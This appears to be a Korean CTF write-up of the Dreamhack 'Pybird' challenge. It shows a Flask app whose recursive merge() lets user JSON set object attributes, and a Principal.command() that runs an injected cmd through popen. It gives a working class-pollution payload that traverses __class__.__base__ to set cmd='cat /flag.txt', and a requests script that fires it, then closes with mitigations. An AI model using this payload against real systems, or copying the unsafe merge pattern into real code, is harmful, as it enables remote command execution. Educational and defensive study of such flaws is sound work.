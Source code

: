 ```yaml
---
title: "[CTF] 드림핵 Pybird"
date: 2025-09-19 22:20:00 +0900
categories: [CTF, Web]
tags: [CTF, Deserialization, Object Injection, Python]
description: "드림핵 Pybird"
toc: true
---
```


## 문제 개요

이번 문제는 Flask 기반의 간단한 멤버 관리 서비스이다. 역할(role)에 따라 다른 클래스 인스턴스를 생성하고, `principal` 역할인 경우에만 추가로 `merge()` 함수를 호출해 JSON(또는 form)으로 전달된 값을 객체에 병합한다. 이 병합 로직이 객체 속성을 임의로 덮어쓸 수 있게 설계되어 있어, 공격자가 `principal` 객체에 임의의 어트리뷰트를 주입하면 서버 측에서 해당 어트리뷰트를 사용해 명령을 실행할 수 있다.

* 취약 페이지: `/add_member` (POST, JSON 또는 form)
* 명령 실행 경로: `/execute` → `principal.command()` → `popen(command)`
* 취약점 핵심: `merge(src, dst)`가 사용자 입력을 객체에 재귀적으로 주입하여 임의 속성(예: `cmd`)을 추가 가능
* FLAG 위치: 서버 상의 `flag.txt` (예시)

---

## 문제에 제공된 원본 소스코드

아래는 문제에서 제공된 `app.py`의 핵심 부분이다.

```python
from flask import Flask, request, jsonify, render_template, redirect, url_for
from os import popen

app = Flask(__name__)

class Student:
    def __init__(self, name):
        self.name = name
        self.role = "student"

class Teacher(Student):
    def __init__(self, name):
        super().__init__(name)
        self.role = "teacher"

class SubstituteTeacher(Teacher):
    def __init__(self, name):
        super().__init__(name)
        self.role = "substitute_teacher"

class Principal(Teacher):
    def __init__(self, name):
        super().__init__(name)
        self.role = "principal"

    def command(self):
        command = self.cmd if hasattr(self, 'cmd') else 'echo Permission Denied'
        return f'{popen(command).read().strip()}'


def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

principal = Principal("principal")
members = []
members.append({"name":"admin", "role":"principal"})

@app.route('/execute', methods=['GET'])
def execute():
    return jsonify({"result": principal.command()})

@app.route('/add_member', methods=['GET', 'POST'])
def add_member():
    if request.method == 'POST':
        if request.is_json:
            data = request.get_json()
        else:
            data = request.form
        name = data.get("name")
        role = data.get("role")
        if role == "principal":
            new_member = Principal(name)
            merge(data, new_member)
        ...
        members.append({"name": new_member.name, "role": new_member.role})
        return redirect(url_for('index'))
```

---

## 내가 실제로 푼 방법

핵심은 `merge()` 함수가 JSON 입력을 받아 `Principal` 객체의 속성을 사용자 입력으로 덮어쓰도록 허용하는 점이다. 이 동작을 이용하면 `principal` 객체에 `cmd` 어트리뷰트를 추가하여 `/execute` 호출 시 임의 명령을 실행시킬 수 있다.

### 공격 아이디어 요약

1. `/add_member`에 JSON으로 `role="principal"`을 주고, 구조체 형태로 `cmd` 값을 깊은 위치에 끼워넣어 `merge()`가 `Principal` 인스턴스에 `cmd` 속성을 설정하게 한다.
2. `/execute`를 호출하면 `principal.command()`가 `self.cmd`를 읽어 `popen()`으로 실행하므로, 예: `cat /flag.txt` 같은 명령 결과를 JSON으로 얻을 수 있다.

### 내가 사용한 페이로드

아래 페이로드는 JSON 바디로 `/add_member`에 POST하는 형식이다.

```json
{
  "name": "Exploited",
  "role": "principal",
  "__class__": {
    "__base__": {
      "__base__": {
        "cmd": "cat /flag.txt"
      }
    }
  }
}
```

* 이 페이로드는 `merge()` 호출 과정에서 `setattr()`을 통해 `principal` 객체에 `cmd` 어트리뷰트가 추가되도록 유도한다.

### 재현 예시

```python
import requests
base_url = 'http://<target>:5000'
payload = {
    "name": "Exploited",
    "role": "principal",
    "__class__": {
        "__base__": {
            "__base__": {
                "cmd": "cat /flag.txt"
            }
        }
    }
}
resp = requests.post(f'{base_url}/add_member', json=payload)
print(resp.status_code, resp.text)
# 이후
resp = requests.get(f'{base_url}/execute')
print(resp.json())
```

---

## 재현 흐름

1. 공격자: `/add_member`에 위 JSON 페이로드로 POST → `merge()`로 인해 `principal.cmd`가 설정됨
2. 공격자: `/execute` 요청 → `principal.command()`가 `self.cmd` 실행 → 명령 결과 반환(예: flag)

---

## 왜 이게 가능했나

* `merge()`는 외부 입력을 신뢰하고 객체의 속성을 그대로 덮어쓴다(심지어 재귀적으로).
* `Principal` 클래스의 `command()`는 `self.cmd`가 존재하면 이를 실행하도록 설계되어 있어, 외부에서 `cmd`를 주입하면 임의 명령 실행이 가능하다.
* 입력 검증, 허용 속성 화이트리스트, `merge()`의 안전한 구현이 없기 때문에 객체 인젝션(Object Injection) 취약점이 발생한다.

---

## 완화 및 권장 대책

* **절대 사용자 입력을 객체의 속성으로 직접 주입하지 말 것.** 특히 `setattr()` 같은 함수를 통해 내부 객체 상태를 변경하지 말자.
* **화이트리스트 방식의 속성 필터링**: 허용된 키와 값의 타입만 병합하도록 제한하라.
* **직렬화/역직렬화 안전**: 신뢰할 수 없는 JSON을 클래스 인스턴스로 직접 매핑하지 말 것.
* **원격 명령 실행 구조 제거**: `popen()` 등은 최소 권한/승인된 입력만 받도록 하거나 완전히 제거.
* **로그 및 모니터링**: 의심스러운 객체 변경과 관리자 권한 조작 시도 탐지.

---

## 마무리

Pybird 문제는 Python 객체 병합 로직의 위험성을 잘 보여주는 사례다. 외부 입력으로부터 객체 속성을 덮어쓰는 행위는 곧 권한 상승 및 원격 명령 실행으로 이어질 수 있으므로, 설계 단계에서부터 엄격한 입력 검증과 속성 제어가 필요하다.